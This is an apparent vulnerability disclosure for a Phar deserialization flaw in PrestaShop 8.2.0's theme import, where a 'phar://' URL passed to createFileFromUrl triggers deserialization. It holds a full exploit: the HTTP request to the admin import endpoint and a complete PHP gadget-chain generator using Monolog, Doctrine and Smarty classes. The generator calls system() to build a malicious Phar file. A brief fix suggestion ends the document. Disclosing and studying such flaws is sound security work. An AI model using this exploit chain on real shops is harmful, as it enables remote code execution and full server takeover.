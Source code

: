 # `phar` deserialization vulnerability `ThemeManager.php#install` function

## 0x01 Affected version
vendor: https://github.com/PrestaShop/PrestaShop

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description
In PHP, the `Phar file format` is an archive format used to package and distribute PHP applications. This format allows multiple files, directories, and metadata to be bundled into a single file. However, the Phar format contains a deserialization vulnerability that allows an attacker to trigger the deserialization vulnerability by crafting a malicious Phar file. This vulnerability typically occurs when deserializing user input without filtering, allowing the attacker to control the contents of the deserialized object and execute arbitrary code.

Specifically, an attacker can exploit this vulnerability by creating a malicious Phar file and uploading it to a vulnerable PHP server. By triggering the `phar://` protocol, the attacker can read and deserialize the data from the file. The deserialization process can lead to the execution of arbitrary PHP code, allowing the attacker to remotely execute code, retrieve sensitive information, or perform other malicious actions.

The severity of this vulnerability lies in its ability to allow unauthorized remote code execution, enabling an attacker to fully compromise the system, further manipulate the server, or steal sensitive data.

In `PrestaShop v8.2.0`, within the ThemeManager.php#install function, the `Tools::createFileFromUrl($source)` method is used. When `$source='phar://**'`, remote attackers can achieve remote code execution.The fopen function is a key method that triggers the Phar deserialization vulnerability.
![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-5.png)
![alt text](image-4.png)

```text
POST /admin/index.php/improve/design/themes/import?_token=btRUtV2Om2noliZZjeFQZhlMY3gYivjABbPOjP91L6U HTTP/1.1
Host: dem0.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.361f4552ca645f09670605c24f64aab67ce010c716dfd8de67d8c23995a9f813b9c9d9522ef6a53cca057b382e1ddc4b905c047278b01b0db00aedfa874ab300fea74f3bf5429318175df9f58a
Upgrade-Insecure-Requests: 1
Origin: http://dem0.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymCmlvIUBBYzfgX27
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
Referer: http://dem0.com/admin/index.php/improve/design/themes/import?_token=btRUtV2Om2noliZZjeFQZhlMY3gYivjABbPOjP91L6U
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 613

------WebKitFormBoundarymCmlvIUBBYzfgX27
Content-Disposition: form-data; name="import_theme[import_from_computer]"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarymCmlvIUBBYzfgX27
Content-Disposition: form-data; name="import_theme[import_from_web]"

phar://a.phar
------WebKitFormBoundarymCmlvIUBBYzfgX27
Content-Disposition: form-data; name="import_theme[import_from_ftp]"


------WebKitFormBoundarymCmlvIUBBYzfgX27
Content-Disposition: form-data; name="import_theme[_token]"

JCqVFyt2RSudDG1eq5x6B9yqjL_QhsRLqCas-brD3xA
------WebKitFormBoundarymCmlvIUBBYzfgX27--

```

### POC generate code

```php
<?php
namespace Monolog\Handler{
    interface HandlerInterface
    {}
    interface ResettableInterface
    {
    }
    abstract class AbstractHandler implements HandlerInterface, ResettableInterface
    {
        protected $level = 1;
        protected $bubble = true;
        protected $formatter;
        protected $processors = array();
    }
    class FingersCrossedHandler extends AbstractHandler {
        protected $handler;
        protected $activationStrategy;
        protected $buffering = true;
        protected $bufferSize;
        protected $buffer = array();
        protected $stopBuffering;
        protected $passthruLevel;

        public function __construct($handler){
            $this->passthruLevel = 0;
            $this->buffer = array(
                "a"=>array(
                    "level"=>100
                )
            );
            $this->handler = $handler;
            // $this->handler =
        }
    }
}


namespace Doctrine\ORM\Mapping{
    interface ClassMetadata{}
    class ClassMetadataInfo implements ClassMetadata
    {
        public const INHERITANCE_TYPE_NONE = 1;
        public const INHERITANCE_TYPE_JOINED = 2;
        public const INHERITANCE_TYPE_SINGLE_TABLE = 3;
        public const INHERITANCE_TYPE_TABLE_PER_CLASS = 4;
        public const GENERATOR_TYPE_AUTO = 1;
        public const GENERATOR_TYPE_SEQUENCE = 2;
        public const GENERATOR_TYPE_TABLE = 3;
        public const GENERATOR_TYPE_IDENTITY = 4;
        public const GENERATOR_TYPE_NONE = 5;
        public const GENERATOR_TYPE_UUID = 6;
        public const GENERATOR_TYPE_CUSTOM = 7;
        public const CHANGETRACKING_DEFERRED_IMPLICIT = 1;
        public const CHANGETRACKING_DEFERRED_EXPLICIT = 2;
        public const CHANGETRACKING_NOTIFY = 3;
        public const FETCH_LAZY = 2;
        public const FETCH_EAGER = 3;
        public const FETCH_EXTRA_LAZY = 4;
        public const ONE_TO_ONE = 1;
        public const MANY_TO_ONE = 2;
        public const ONE_TO_MANY = 4;
        public const MANY_TO_MANY = 8;
        public const TO_ONE = 3;
        public const TO_MANY = 12;
        public const CACHE_USAGE_READ_ONLY = 1;
        public const CACHE_USAGE_NONSTRICT_READ_WRITE = 2;
        public const CACHE_USAGE_READ_WRITE = 3;
        public const GENERATED_NEVER = 0;
        public const GENERATED_INSERT = 1;
        public const GENERATED_ALWAYS = 2;
        public $name;
        public $namespace;
        public $rootEntityName;
        public $customGeneratorDefinition;
        public $customRepositoryClassName;
        public $isMappedSuperclass = false;
        public $isEmbeddedClass = false;
        public $parentClasses = [];
        public $subClasses = [];
        public $embeddedClasses = [];
        public $namedQueries = [];
        public $namedNativeQueries = [];
        public $sqlResultSetMappings = [];
        public $identifier = [];
        public $inheritanceType = self::INHERITANCE_TYPE_NONE;
        public $generatorType = self::GENERATOR_TYPE_NONE;
        public $fieldMappings = [];
        public $fieldNames = [];
        public $columnNames = [];
        public $discriminatorValue;
        public $discriminatorMap = [];
        public $discriminatorColumn;
        public $table;
        public $lifecycleCallbacks = [];
        public $entityListeners = [];
        public $associationMappings = [];
        public $isIdentifierComposite = false;
        public $containsForeignIdentifier = false;
        public $containsEnumIdentifier = false;
        public $idGenerator;
        public $sequenceGeneratorDefinition;
        public $tableGeneratorDefinition;
        public $changeTrackingPolicy = self::CHANGETRACKING_DEFERRED_IMPLICIT;
        public $requiresFetchAfterChange = false;
        public $isVersioned = false;
        public $versionField;
        public $cache;
        public $reflClass;
        public $isReadOnly = false;
        protected $namingStrategy;
        public $reflFields = [];
        private $instantiator;
        public function __construct($handler,$code){
            $this->instantiator = $handler;
            $this->name = $code;
        }
    }
}
namespace {
    ini_set("display_errors", "On");
    ini_set("error_reporting",E_ALL);
    class SmartyLazyRegister
    {
        protected $registry = [];
        protected static $instances = [];
        public function __construct($func){
            $this->registry["instantiate"] = $func;

        }
    }
    $func = "system";
    $code = "calc";
    $lazy = new SmartyLazyRegister($func);
    $meatinfo = new Doctrine\ORM\Mapping\ClassMetadataInfo($lazy,$code);
    $handler = array($meatinfo,"newInstance");

    $FingersCrossedHandler = new Monolog\Handler\FingersCrossedHandler($handler);
    $phar = new Phar("exp.phar"); 
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ?>'); 
    $phar->setMetadata($FingersCrossedHandler);
    $phar->addFromString("exp.txt", "test"); 
    $phar->stopBuffering();

    echo base64_encode(serialize($FingersCrossedHandler));
}
```
When we pass a remote link as a parameter to the `createFileFromUrl` function, the file will be downloaded to the `admin` directory. By leveraging this, we can transmit a malicious Phar file, thus exploiting the vulnerability and achieving remote code execution.

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to ensure that the URLs passed to createFileFromUrl are valid and only allow the `HTTP` or `HTTPS` protocols. Malicious attackers may attempt to pass URLs using other protocols, such as `phar://`, which could trigger the deserialization vulnerability. Proper validation and filtering of URLs are critical for mitigating this risk.

